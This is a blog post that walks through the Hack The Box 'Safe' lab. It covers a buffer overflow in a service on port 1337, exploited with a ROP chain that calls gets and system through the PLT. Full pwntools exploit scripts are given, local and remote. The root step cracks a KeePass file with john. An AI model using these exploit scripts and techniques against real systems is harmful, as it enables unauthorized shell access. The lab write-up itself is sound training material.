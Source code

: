 ```yaml
---
layout: post
title:	"Safe Writeup"
date:	2019-10-26
categories:
    - blog
tags:
    - hackthebox
---
```


![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img0.png)

### User Flag

Let's run a full TCP scan with NMAP in order to enumerate all the available TCP services:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img1.png)

How we can see, there are 3 open ports. On the 1337, there is an unknow service:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img2.png)

Going to http://10.10.10.147, we find the default Apache webpage but, by inspecting the source code, we find a comment about the service running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img3.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img4.png)

We can download the binary at http://10.10.10.147/myapp, it's the same running on port 1337:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img5.png)

Now check if the service crashes after receiving a certain ammount of character, we can use python to generate 120 'A's:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img6.png)

Ok, it crashes! Let's use a gdb-peda to debug the application and understand what it does. In the following image we can see the only enabled protection is NX, obviously the operating system has ASRL enabled too (trust me it's enabled :-P):

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img7.png)

Because there is no PIE, the PLT is not randomized so we can call the puts, system, prinft and gets functions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img8.png)

Let's set a break point on the gets call and try to debug the binary:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img9.png)

As we can see, we are no able to debug the application because a new process is spawned and our debuger is not able to "follow" the new spawned process. In order to solve this problem, we can use the "set follow-fork-mode parent" command in order to let gdb-peda to "came back" to our process:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img10.png)

At this point, we need to know how much 'A's we need to overwrite EBP, to do this, we can use the pattern_create script:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img11.png)

Using the obtained string, we can see the value of EBP and use the pattern_offset to obtain the number of 'A's we need to overwrite EBP, we have to add 8 more 'A's to overwrite EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img12.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img13.png)

With 120 'A's and 8 'B's we are able to triger a ret instruction on the address 0x4242424242424242, that means we controll EIP:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img14.png)

At this point, we controll the program flow, the idea is to call the system function (via PLT ad fix address), with /bin/bash as parameter. The x64 calling convetion tells us that the first argument must be pass throu the RDI register. So we need an instruction that take the value on the top of the stack and put it into the RDI register. We can use ROPgadget for this purpose:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img15.png)

Ok, our instruction is at address 0x40120b!!
So what does our payload should do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string
* System PLT Address 

Is it ok? No, we have another problem: ASRL(I told you before :-P), we don't know the address of our "/bin/bash" string. We need to figure out how to deal with it! We can find a writable fixed address, use the GETS function (PLT) to write our "/bin/bash" string into it. Using the vmmap command, we can see the memory mapping and it's permissions:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img16.png)

Ok, how we can see, the memory from 0x00404000  to 0x00405000  is writable and is part of our binary (fixed address!!!), let's use the address 0x404050. What does our exploit have to do?

* 120 'A's
* Address POP RDI; RET; (0x40120b)
* Writable Address (0x404050)
* Gets PLT Address 
* Address POP RDI; RET; (0x40120b)
* Address of /bin/bash string (0x404050)
* System PLT Address 

Using [pwntool](https://pwntools.com), this is the local exploit:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = process("/root/Desktop/myapp")

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
print p.read 
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img17.png)

Ok it works, let's use the connection to the remote service in order to obtain a reverse shell from Safe machine:

~~~
from pwn import *

e = ELF("/root/Desktop/myapp")
p = remote("10.10.10.147",1337)

payload = "A"*(120)
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address 
payload += p64(0x401060) #gets@PLT
payload += p64(0x000000000040120b) #pop rdi; ret
payload += p64(0x404050) #writable address
payload += p64(0x401040) #system@PLT
payload += "\x90" *50
print p.read
print p.read
print "Invio Payload"
p.write(payload+"\n")
p.write("/bin/bash\n")
print p.read()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img18.png)

### Root Flag

We can add our ssh key to the authorized_key file in order to access with SSH:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img19.png)

In the home folder of user there are 6 images and a keepass file:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img20.png)

We can use keepass2john and john to crack the keepass file,  one of the images maybe a keyfile, using keepass2john we can generate an a file containing multiple hashes, one for each images as key :

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img21.png)

With john, we obtain the password "bullshit":

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img22.png)

Using the password "bullshit" and the file "IMG_0547.JPG" as keyfile, we can access the keepass file and obtain the root password:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img23.png)

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img24.png)

With su command we became the user root:

![Screenshot]({{ site.baseurl }}/images/2019-10-26-htb-safe/img25.png)










